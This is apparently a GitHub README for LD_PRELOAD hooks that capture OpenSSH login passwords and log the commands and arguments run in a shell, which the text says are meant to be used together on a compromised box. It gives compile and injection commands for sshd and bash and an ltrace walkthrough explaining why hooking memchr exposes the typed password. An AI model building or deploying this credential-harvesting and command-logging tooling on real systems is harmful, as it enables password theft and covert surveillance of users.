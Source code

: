 # LD_PRELOAD hooks
 A collection of shared objects that are used as LD_PRELOAD hooks

# sshd_memchar_hook
The goal of this hook is to read and output OpenSSH passwords

## sshd_memchar_hook compile/usage

    gcc sshd_memchar_hook.c -o /tmp/sshd_memchar_hook.so -fPIC -shared -ldl -D_GNU_SOURCE
    LD_PRELOAD=/tmp/sshd_memchar_hook.so /usr/sbin/sshd -D -f /etc/ssh/sshd_config_tmp

# shell_arg_hook
This hook records commands typed into a shell. It does this with the simple trick of logging argc and argv arguments that are sent to a process. This is accomplished by placing the function in the `.init_array` section. This means it has access to argc and argv, where it can then log them. The executable will then proceed as normal.

This has other implications, for example the question here: https://unix.stackexchange.com/questions/88665/how-does-ps-know-to-hide-passwords

If this .so is injected in the mysql startup, the password will be available in the log.

This was written to be used in conjunction with `sshd_memchar_hook` to record what password is used, and then what commands are run on the box.

## shell_arg_hook compile/usage

    gcc shell_arg_hook.c -o /tmp/shell_arg_hook.so -fPIC -shared -ldl -D_GNU_SOURCE
    LD_PRELOAD=/tmp/shell_arg_hook.so bash

# Example Setup

First, lets configure an OpenSSH server without overwriting the running one.
These commands just create a second sshd config listening on port 2222, runs, and confirms

    sed "s/#Port 22/Port 2222/" /etc/ssh/sshd_config > /etc/ssh/sshd_config_tmp
    /usr/sbin/sshd -D -f /etc/ssh/sshd_config_tmp
    ss -lntp # Confirm listening on port 2222

# How it works / why memchar?
First, lets look at all the library calls that ssh makes. The "-f" flag for ltrace is VERY important, since there is a lot of forking going on

    root@kali:~/tmp# ltrace -f /usr/sbin/sshd -D -f /etc/ssh/sshd_config_tmp 2>sshd_dump.log

In another terminal, lets create a login event. The password I will be typing in is `FAKEPASSWORD`

    root@kali:/tmp# ssh FAKEUSER@127.0.0.1 -p 2222
    FAKEUSER@127.0.0.1's password:

Now lets look at the output, and see what calls we are interested in:

    root@kali:~/tmp# grep FAKE sshd_dump.log 
    [pid 14878] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14878] memcpy(0x561856c41c60, "FAKEUSER", 8)                                                                                      = 0x561856c41c60
    [pid 14878] strchr("FAKEUSER", '/')                                                                                                    = nil
    [pid 14878] strchr("FAKEUSER", ':')                                                                                                    = nil
    [pid 14878] strlen("FAKEUSER")                                                                                                         = 8
    [pid 14878] memcpy(0x561856c33cc4, "FAKEUSER", 8)                                                                                      = 0x561856c33cc4
    [pid 14877] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14877] memcpy(0x561856c312a0, "FAKEUSER", 8)                                                                                      = 0x561856c312a0
    [pid 14877] getpwnam("FAKEUSER")                                                                                                       = 0
    [pid 14877] strncpy(0x7ffd72e5666c, "FAKEUSER", 32)                                                                                    = 0x7ffd72e5666c
    [pid 14878] strlen("FAKEUSER")                                                                                                         = 8
    [pid 14878] memcpy(0x561856c31100, "FAKEUSER\0", 9)                                                                                    = 0x561856c31100
    [pid 14878] strlen("11607582978119444942FAKEUSER")                                                                                     = 28
    [pid 14878] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14878] memcpy(0x561856c3bc70, "FAKEUSER", 8)                                                                                      = 0x561856c3bc70
    [pid 14878] strchr("FAKEUSER", '/')                                                                                                    = nil
    [pid 14878] strchr("FAKEUSER", ':')                                                                                                    = nil
    [pid 14878] strcmp("FAKEUSER", "FAKEUSER")                                                                                             = 0
    [pid 14878] strlen("11607582978119444942FAKEUSER")                                                                                     = 28
    [pid 14878] memcpy(0x561856c351f0, "\0\0\002\310\0062\0\0\0\bFAKEUSER\0\0\0\016ssh-connec"..., 256)                                    = 0x561856c351f0
    [pid 14878] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14878] memcpy(0x561856c3bc70, "FAKEUSER", 8)                                                                                      = 0x561856c3bc70
    [pid 14878] strchr("FAKEUSER", '/')                                                                                                    = nil
    [pid 14878] strchr("FAKEUSER", ':')                                                                                                    = nil
    [pid 14878] strcmp("FAKEUSER", "FAKEUSER")                                                                                             = 0
    [pid 14878] memchr("FAKEPASSWORD{\347ju\307#\244\032R\0241PW\021\271\320\t\005\324Q"..., '\0', 12)                                     = 0
    [pid 14878] memcpy(0x561856c454f0, "FAKEPASSWORD", 12)                                                                                 = 0x561856c454f0
    [pid 14878] strlen("FAKEPASSWORD")                                                                                                     = 12
    [pid 14878] memcpy(0x561856c34414, "FAKEPASSWORD", 12)                                                                                 = 0x561856c34414
    [pid 14877] memchr("FAKEPASSWORD", '\0', 12)                                                                                           = 0
    [pid 14877] memcpy(0x561856c514a0, "FAKEPASSWORD", 12)                                                                                 = 0x561856c514a0
    [pid 14877] strlen("FAKEPASSWORD")                                                                                                     = 12
    [pid 14877] strlen("FAKEPASSWORD")                                                                                                     = 12
    [pid 14878] strlen("11607582978119444942FAKEUSER" <unfinished ...>
    [pid 14877] strncpy(0x7ffd72e566bc, "FAKEUSER", 32)                                                                                    = 0x7ffd72e566bc
    root@kali:~/tmp# grep strlen sshd_dump.log | wc -l
    5079
    root@kali:~/tmp# grep memcpy sshd_dump.log | wc -l
    1320
    root@kali:~/tmp# grep memchr sshd_dump.log | wc -l
    105

So, `memchr` looks pretty interesting. It has the lowest number of calls while showing the data that we want.